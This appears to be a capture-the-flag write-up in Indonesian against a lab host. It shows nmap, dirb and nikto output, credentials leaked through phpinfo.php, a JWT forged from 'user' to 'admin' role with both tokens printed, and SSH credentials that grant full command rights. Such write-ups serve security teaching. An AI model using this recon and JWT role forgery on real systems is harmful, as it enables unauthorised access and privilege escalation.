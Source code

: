 
# Enemuration

Nmap

```
# Nmap 7.94SVN scan initiated Tue Feb 27 20:56:13 2024 as: nmap -sC -sV -oN nmapx -p- -T4 --min-rate=1000 -v 10.1.2.145
Warning: 10.1.2.145 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.1.2.145
Host is up (0.24s latency).
Not shown: 65482 closed tcp ports (conn-refused), 51 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d6:06:eb:45:98:f7:f9:c9:1b:15:b7:9f:95:24:41:f2 (RSA)
|   256 87:56:ee:f9:84:5a:08:10:eb:6c:fa:1a:93:fc:40:56 (ECDSA)
|_  256 b3:92:37:26:3a:cd:89:9d:88:5d:85:81:b2:8c:97:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Login
|_Requested resource was /login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 27 20:58:11 2024 -- 1 IP address (1 host up) scanned in 118.14 seconds

```


Dirb

```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Tue Feb 27 21:02:31 2024
URL_BASE: http://10.1.2.145/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.145/ ----

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Tue Feb 27 22:15:10 2024
URL_BASE: http://10.1.2.145/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.145/ ----
+ http://10.1.2.145/index.php (CODE:302|SIZE:0)
+ http://10.1.2.145/phpinfo.php (CODE:200|SIZE:75790)
+ http://10.1.2.145/server-status (CODE:403|SIZE:275)
==> DIRECTORY: http://10.1.2.145/src/
==> DIRECTORY: http://10.1.2.145/vendor/

---- Entering directory: http://10.1.2.145/src/ ----

---- Entering directory: http://10.1.2.145/vendor/ ----
==> DIRECTORY: http://10.1.2.145/vendor/bin/
==> DIRECTORY: http://10.1.2.145/vendor/composer/

---- Entering directory: http://10.1.2.145/vendor/bin/ ----

---- Entering directory: http://10.1.2.145/vendor/composer/ ----
+ http://10.1.2.145/vendor/composer/LICENSE (CODE:200|SIZE:1068)

-----------------
END_TIME: Tue Feb 27 23:53:18 2024
DOWNLOADED: 23060 - FOUND: 4

```


Nikto
```
└─$ nikto -h http://10.1.2.145           
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.1.2.145
+ Target Hostname:    10.1.2.145
+ Target Port:        80
+ Start Time:         2024-02-27 21:18:40 (GMT7)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: /login.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /phpinfo.php: Output from the phpinfo() function was found.
+ /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
+ /login.php: Admin login page/section found.
+ /composer.json: PHP Composer configuration file reveals configuration information. See: https://getcomposer.org/
+ /composer.lock: PHP Composer configuration file reveals configuration information. See: https://getcomposer.org/
+ 8103 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2024-02-27 21:52:53 (GMT7) (2053 seconds)
---------------------------------------------------------------------------
+ 1 host(s) teste
```


# Exploitation

Pada scan menggunakan nikto terdapat file `phpinfo.php` yang terdapat informasi credential user untuk login `Charis : 14m@we50m3`

![alt text](images/credential.png)

Setelah login hanya terdapat 1 halaman untuk dilihat user tapi pada checklist di halaman tersebut mengatakan ada halaman `secret` yang hanya bisa di akses oleh admin.

![alt text](images/user-page.png)


Memanipulasi Role jwt token dari user menjadi admin untuk mengakses `secret page`

```
JWT TOKEN

{"typ":"JWT","alg":"HS256"}{"username":"Charis","role":"user","realm":"Atulieer"}'-DN`du3N)Cؾ

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IkNoYXJpcyIsInJvbGUiOiJ1c2VyIiwicmVhbG0iOiJBdHVsaWVlciJ9.JxMtw-7yxRpETqJgZAWGpx11ujOKThcVKcJDnu_Yvvo


CUSTOM JWT TOKENS

{"typ":"JWT","alg":"HS256"}{"username":"Charis","role":"admin","realm":"Atulieer"}�em#.P|/LS'

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IkNoYXJpcyIsInJvbGUiOiJhZG1pbiIsInJlYWxtIjoiQXR1bGllZXIifQ.BljW2JHQQjz_guCp2eBB9Q_b31ta58L7CLrdZMs1Mns

```

![alt text](images/secret-page.png)


Seorang admin meninggalkan credential ssh yang mana kita bisa masuk menggunakan ssh tersebut `berg : wann@Bep0r0r0`. user breg disini memiliki akses ke semua user dan host yang bisa menjalankan command apapun.

![alt text](images/flag.png)



### Solve

![alt text](images/solve-user.png)
![alt text](images/solve-root.png)